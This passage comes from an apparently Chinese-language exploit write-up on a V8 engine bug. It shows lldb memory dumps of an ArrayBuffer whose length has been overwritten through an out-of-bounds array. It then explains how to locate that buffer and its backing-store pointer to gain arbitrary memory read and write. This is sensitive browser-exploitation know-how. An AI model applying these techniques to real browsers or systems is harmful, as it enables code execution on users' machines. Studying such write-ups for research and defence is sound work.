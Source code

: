 ```
           4: 0x25e084d947d1 <ArrayBuffer map = 0x25e0f0003fe9>
           5: 0x25e084d94821 <ArrayBuffer map = 0x25e0f0003fe9>
```


打印一下内存数据，可以看到第四个字段就是长度了，这里已经被我们改为`0x1212`
```
(lldb) x/20xg 0x25e084d94690
0x25e084d94690: 0x000025e0f0003fe9 0x000025e0b2b82251
0x25e084d946a0: 0x000025e0b2b82251 0x0000121200000000
0x25e084d946b0: 0x0000000102020c00 0x0000000102020c00
0x25e084d946c0: 0x0000000000001212 0x0000000000000004
0x25e084d946d0: 0x0000000000000000 0x0000000000000000
0x25e084d946e0: 0x000025e0f0003fe9 0x000025e0b2b82251
0x25e084d946f0: 0x000025e0b2b82251 0x0000123400000000
0x25e084d94700: 0x000000010202f400 0x000000010202f400
0x25e084d94710: 0x0000000000001234 0x0000000000000004
0x25e084d94720: 0x0000000000000000 0x0000000000000000
```

好啦，到这里我们解释下如何利用这个ArrayBuffer进行构造任意读和任意写

这是我们目前构造出的内存对象分部图，左边表示`oobArray`，中间是内存地址，与上面打印出来的地址对应，右边是`ArrayBuffer[0]`的结构对应，所以我们暴搜找到原始数组长度`0x123400000000`，此时记录`i`，这样`oobArray[i+1]`就是`Backing Store`字段，而把长度改为`0x1212`是因为我们现在有一百个ArrayBuffer，所以需要定位到我们当前这个ArrayBuffer，那么修改长度之后，再对一百个ArrayBuffer进行遍历长度，就可以找到一个`bufs[j].kByteLengthOffset`为`0x0000121200000000`，此时记录`j`

![IMAGE](/assets/resources/1458D088F0470125D5E17D32ACE47BF4.jpg)
